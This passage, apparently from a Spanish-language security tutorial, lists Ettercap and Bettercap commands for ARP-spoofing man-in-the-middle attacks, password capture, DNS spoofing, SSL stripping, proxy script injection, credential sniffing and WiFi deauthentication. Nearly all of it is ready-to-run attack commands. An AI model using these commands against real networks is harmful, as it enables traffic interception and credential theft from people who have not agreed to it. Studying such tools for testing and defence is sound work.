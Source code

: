 #### Uso Práctico de Ettercap
```bash
# Escaneo de hosts activos
ettercap -T -P list_arp

# ARP spoofing básico (man-in-the-middle)
ettercap -T -M arp:remote /192.168.1.10// /192.168.1.1//

# ARP spoofing con captura de passwords
ettercap -T -M arp:remote -L passwords /192.168.1.10// /192.168.1.1//

# DNS spoofing combinado con ARP spoofing
ettercap -T -M arp:remote -P dns_spoof /192.168.1.10// /192.168.1.1//

# Modo text interface con logging
ettercap -T -M arp:remote -w capture.pcap /192.168.1.10// /192.168.1.1//

# SSL stripping attack
ettercap -T -M arp:remote -P sslstrip /192.168.1.10// /192.168.1.1//
```

### Bettercap - Herramienta Moderna

#### Arquitectura Modular de Bettercap
```javascript
// Bettercap session example
# Network discovery
net.probe on

# Enable ARP spoofing
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.1.10
arp.spoof on

# HTTP proxy con script injection
set http.proxy.script /path/to/script.js
http.proxy on

# HTTPS proxy con certificate cloning
https.proxy on

# Credential harvesting
set net.sniff.verbose true
set net.sniff.local true
net.sniff on

# WiFi handshake capture
wifi.recon on
wifi.deauth 00:11:22:33:44:55
```

---
